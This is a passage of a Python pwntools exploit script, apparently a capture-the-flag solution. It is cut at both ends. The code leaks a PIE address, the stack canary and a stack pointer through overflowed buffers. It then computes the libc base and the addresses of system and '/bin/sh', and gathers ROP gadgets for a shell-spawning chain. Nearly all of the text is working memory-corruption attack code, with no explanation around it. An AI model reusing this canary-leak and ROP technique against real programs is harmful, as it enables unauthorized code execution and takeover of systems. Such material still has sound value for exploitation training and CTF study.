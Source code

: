     r.sendline(size)
    r.sendline(val)

def exploit(r):
    pop_rdi = 0x0000000000026b72
    attach(r)

    r.recvuntil("Anderson.\n")
    seto("8","A"*17)
    r.sendline("A")
    r.recvuntil("AAAAAAA\n")
    leak = u64(r.recv(8).replace("\n","\x00").ljust(8, "\x00").replace("A","\x00"))
    base_pie = leak - elf.sym['_start']
    yay = base_pie + 0x00000000000011E9
    log.info("leak: " + hex(leak))
    log.info("base: " + hex(base_pie))
    log.info("yay : " + hex(yay))

    # leak canary
    r.sendline("24")
    r.sendline("A"* 24)
    r.recvuntil("AAAAAAAAAAAAAAAAAAAAAAAA")
    canary = u64(r.recv(8).replace("\n","\x00").ljust(8,"\x00"))
    log.info("canary: " + hex(canary))
    

    # canary dah dapat sekarang balik ke main
    p = "A" * 24
    p += p64(canary)
    p += p64(99)
    p += p64(leak)
    r.sendline("50")
    r.sendline(p)
    r.sendline("X")


    r.sendline("16")
    r.sendline("A"* 16)
    r.sendline("40")
    r.sendline("A"*40)
    r.recvuntil("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
    libc_start_main = u64(r.recv(8).replace("\n","\x00").ljust(8, "\x00")) - 64
    libc_base = libc_start_main - libc.sym['__libc_start_main']
    libc_system = libc_base + libc.sym['system']
    binsh = libc_base + libc.search("/bin/sh").next()
    log.info("libc_start_main: " + hex(libc_start_main))
    log.info("libc_base: " + hex(libc_base))
    log.info("system: " + hex(libc_system))

    r.sendline("56")
    r.sendline("A"*56)
    r.recvuntil("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
    leak_stack = u64(r.recv(8).replace("\n","\x00").ljust(8, "\x00"))
    name = leak_stack 
    log.info("leak_stack: " + hex(leak_stack))


    pop_rdi = base_pie + 0x00000000000013f3
    pop_rax = base_pie + 0x00000000000011f1
    ret = base_pie + 0x000000000000101a
    jmp_rax = libc_base + 0x000000000000114f
    call_rsp = libc_base + 0x00000000000284c8
    add_rsp_8_ret = base_pie +  0x0000000000001016

    main = base_pie + elf.sym['main']
